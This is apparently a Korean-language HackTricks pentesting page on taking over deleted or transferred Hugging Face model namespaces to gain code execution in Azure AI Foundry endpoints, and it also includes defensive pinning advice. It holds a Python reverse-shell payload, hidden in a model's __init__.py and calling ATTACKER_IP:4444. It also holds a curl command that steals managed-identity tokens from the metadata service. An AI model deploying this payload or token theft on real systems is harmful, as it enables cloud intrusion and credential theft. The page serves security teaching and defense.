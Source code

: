 # Azure - AI Foundry Post-Exploitation via Hugging Face 모델 네임스페이스 재사용

{{#include ../../../banners/hacktricks-training.md}}

## 시나리오

- Azure AI Foundry Model Catalog에는 원클릭 배포를 위한 많은 Hugging Face (HF) 모델이 포함되어 있다.
- HF 모델 식별자는 Author/ModelName이다. HF author/org가 삭제되면, 누구나 해당 author를 재등록하여 동일한 ModelName으로 legacy path에 모델을 게시할 수 있다.
- 이름만으로(pull by name) 가져오는 pipelines 및 catalogs(commit pinning/무결성 체크 없음)는 공격자 제어의 repo로 해석된다. Azure가 모델을 배포할 때 loader code가 endpoint 환경에서 실행되어 해당 endpoint의 권한으로 RCE를 획득할 수 있다.

일반적인 HF takeover 사례:
- 소유권 삭제: takeover가 이루어질 때까지 기존 경로가 404가 된다.
- 소유권 이전: 기존 author가 존재하는 동안 기존 경로는 새 author로 307 리다이렉트된다. 이후 기존 author가 삭제되고 재등록되면 redirect가 깨지고 공격자의 repo가 legacy path에서 서비스된다.

## 재사용 가능한 네임스페이스(HF) 식별
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Azure AI Foundry에 대한 엔드투엔드 공격 흐름

1) Model Catalog에서 원래 작성자가 HF에서 삭제되었거나 이전되어(기존 작성자가 제거된) HF 모델을 찾습니다.  
2) HF에서 방치된 작성자를 다시 등록하고 ModelName을 재생성합니다.  
3) import 시 실행되거나 trust_remote_code=True를 요구하는 loader code가 포함된 악성 repo를 게시합니다.  
4) Azure AI Foundry에서 레거시 Author/ModelName을 배포합니다. 플랫폼이 공격자 repo를 가져오고; loader가 Azure endpoint의 container/VM 내부에서 실행되어 endpoint 권한을 가진 RCE를 획득합니다.

예시 페이로드 조각 (import 시 실행됨, 시연용):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notes
- AI Foundry 배포는 HF와 통합될 때 일반적으로 모델의 config에서 참조된 repo 모듈(예: auto_map)을 클론하고 import하며, 이는 코드 실행을 유발할 수 있습니다. 일부 경로는 trust_remote_code=True가 필요합니다.
- 접근 권한은 보통 엔드포인트의 managed identity/service principal 권한과 일치합니다. 이를 데이터 접근 및 lateral movement within Azure를 위한 초기 발판으로 간주하세요.

## Post-Exploitation Tips (Azure Endpoint)

- environment variables 및 MSI endpoints에서 tokens을 열거하세요:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- 획득한 token으로 마운트된 스토리지, model artifacts 및 접근 가능한 Azure 서비스들을 확인하세요.
- 플랫폼이 HF에서 다시 pull할 경우, poisoned model artifacts를 남겨 persistence를 고려하세요.

## Azure AI Foundry 사용자를 위한 방어 지침

- HF에서 로드할 때 모델을 commit 단위로 pin하세요:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 검증된 HF models를 신뢰할 수 있는 내부 레지스트리에 미러링하고 거기서 배포하세요.
- 코드베이스와 defaults/docstrings/notebooks를 지속적으로 스캔하여 삭제되었거나 이전된 하드코딩된 Author/ModelName을 찾아 업데이트하거나 핀(pin)하세요.
- 배포하기 전에 author 존재 여부와 모델 출처(provenance)를 검증하세요.

## 인식 휴리스틱 (HTTP)

- Deleted author: author 페이지 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 교차 참조

- 더 광범위한 방법론 및 공급망 관련 노트를 참조하세요:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 참고 자료

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}

